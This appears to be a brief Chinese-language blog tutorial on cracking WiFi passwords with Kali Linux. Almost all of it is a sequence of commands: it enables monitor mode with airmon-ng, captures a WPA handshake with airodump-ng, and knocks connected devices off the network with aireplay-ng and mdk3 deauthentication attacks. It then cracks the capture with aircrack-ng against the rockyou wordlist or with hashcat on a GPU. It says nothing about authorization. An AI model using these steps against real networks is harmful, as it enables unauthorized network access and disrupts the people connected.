

 

 

<!-- more -->

 [本文地址](https://tiandaochouqin1.github.io/Simple-WIFI-Crack) 

<!-- TOC -->

<!-- /TOC -->

要求：

- Kali Linux，功能非常强大；
- 支持监控模式的网卡，一般都支持；
- 字典，字典的选择至关重要；
        gzip -d /usr/share/wordlists/rockyou.txt.gz //解压自带字典
- 时间和耐心。

WIFI四次握手:

1. 断开WiFi，查看无线网卡；
        airmon-ng

2. 开启无线网卡的监控模式
        airmon-ng start wlan0

3. 查看周围WIFI网络信息
        airodump-ng wlan0mon

4. 抓取握手包
        airodump-ng -c 频道号 --bssid  MAC地址 -w  保存文件名 wlan0mon
参数解释：

- -c指定频道号
- --bssid指定路由器bssid
- -w指定抓取的数据包保存位置

5. 强制WIFI设备重连
        aireplay-ng -0 2 -a MAC of AP -c MAC of Station wlan0mon //没啥用

- -0表示发起deauthentication攻击
- -a指定无线路由器BSSID
- -c指定强制断开的设备

        mdk3 d -c channelnumber//也没用

        airmon-ng stop wlan0mon //停止监听

6. 使用字典破解
        aircrack-ng -w /usr/share/wordlists/rockyou.txt ***.cap

7. 使用显卡计算
[Hashcat](https://hashcat.net/hashcat/)
        aircrack-ng file.cap -J out.hccap
        hashcat -m 2500 out.hccap 字典文件

其它；
[Reaver 破解PIN码](http://topspeedsnail.com/kali-linux-crack-wifi-password-wps/)

